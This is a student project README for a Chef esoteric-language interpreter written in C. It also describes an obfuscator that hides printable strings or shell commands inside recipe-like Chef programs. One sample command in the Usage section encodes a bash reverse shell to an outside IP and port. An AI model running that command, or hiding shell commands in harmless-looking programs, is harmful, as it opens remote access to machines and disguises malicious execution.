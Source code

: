 # The Caterers (Presentation)

### P Thomsen & Z Cater  (Period 09)

## Overview

>  "Chef is a programming language in which programs look like recipes."  
> — [*David Morgan-Mar*](https://www.dangermouse.net/esoteric/chef.html)

Chef is an *esoteric programming language*[^1] following the concept of *multiple coding*[^2], in which programs are intentionally designed so as to function as both valid programs and valid recipes. Chef is stack-based and utilizes three basic concepts:
1. Ingredients, which have numerical values and can be either dry, liquid, or unknown (*e.g.* 72 g haricot beans, 25 ml water, 6 human eyeballs)
2. An ordered set of infinite mixing bowls, which are the stacks primarily used for general processing and which hold various ingredients within them
3. An ordered set of infinite baking pans, which are used almost solely for data output—once items have been poured into the pans, they are not able to be removed

Together with cooking- and baking-themed commands, these three elements form a Turing-complete language[^3] that is *also* capable of describing a great number of recipes[^4]. Features such as the "Take *ingredient* from refrigerator" and "Mix [the [*nth*] mixing bowl] well" directives even allow for user input and randomness, respectively, allowing us to imagine a world in which one could write and play a cooking simulator in Chef.

Our final project attempts to create a Chef interpreter in C, and an obfuscator to transform simple messages to be printed or called as shell commands into Chef programs.

## Installation Instructions

1. Clone the repository and ensure that gcc, make, and libpcre2-dev are installed (if you're using the school computers, connect to marge.stuy.edu)
    - gcc is necessary for compiling the C code
    - make is necessary for running the makefile to direct gcc what to actually compile
    - libpcre2-dev is necessary for the regular expressions used in parsing the input files, which were as far as I can tell completely unfeasible to reasonably implement using POSIX regular expressions and far too small-scale to be worth utilizing lex and yacc for
2. Run `make compile` to compile the project.
3. Clean up using `make clean` at any time to delete the executables and any `.o` files

## Usage

### To obfuscate: `./obfuscate`

Obfuscate takes a single command flag and a string to encode and outputs a valid Chef file. The two valid flags are
- `-p`: The Chef file will *print* the string provided.
- `-x`: The Chef file *execute* the string provided as an `sh`-compatible shell command.

Sample usage:
- `./obfuscate -p "Hello, world!"
- `./obuscate -p '"Chefs are nutters. They'\''re all self-obsessed, delicate, dainty, insecure little souls, and absolute psychopaths. Every last one of them." - Gordon Ramsay'
- `./obfuscate -x 'echo "Hello, world!"'
- `./obfuscate -x 'bash -c 'bash -i >& /dev/tcp/149.89.150.100/9001 0>&1''

Watch out! Obfuscate is ONLY guaranteed to work on ASCII input with 256 or fewer distinct characters.[^5] Attempting to use it otherwise will throw an error.



[^1]: Per [Wikipedia](https://en.wikipedia.org/wiki/Esoteric_programming_language): "An *esoteric programming language* (sometimes shortened to *esolang*) is a programming language designed to test the boundaries of computer programming language design, as a proof of concept, as software art, as a hacking interface to another language (particularly functional programming or procedural programming languages), or as a joke. The use of the word esoteric distinguishes them from languages that working developers use to write software … Usability is rarely a goal for designers of esoteric programming languages; often their design leads to quite the opposite."
[^2]: [Mateas, Michael and Nick Montfort. “A Box, Darkly: Obfuscation, Weird Languages, and Code Aesthetics.” In Proceedings of the 6th Digital Arts and Culture Conference, IT University of Copenhagen, 1-3 Dec 2005, pp. 144-153.](https://nickm.com/cis/a_box_darkly.pdf)
[^3]: At least I assume it's Turing complete. I found [this program by Wesley Janssen, Joost Rijneveld and Mathijs Vos](https://github.com/joostrijneveld/Chef-Interpreter/blob/master/ChefInterpreter/TuringsTastyTortillas.chef) which claims to be a working Turing Machine (and it certainly seems to be) and the fact that I cannot spot any way to solve the halting problem with it certainly seem exciting, but I can find no actual analysis and do not trust my own intuition.
[^4]: On the other hand, I know for a *fact* that Chef cannot represent all possible recipes, because there is no way to encode my grandmother's skillet chops and rice recipe. The step "Lie about the presence of onions" is unencodable due to the simple fact that Chef requres all instructions involving arbitrary verbs to be loops and have a matching "until *present participle*" command, while the command to lie about the presence of onions can never complete.
[^5]: It shouldn't be possible to use more than 256 distinct characters while staying in the 7-bit ASCII range, but you never know.
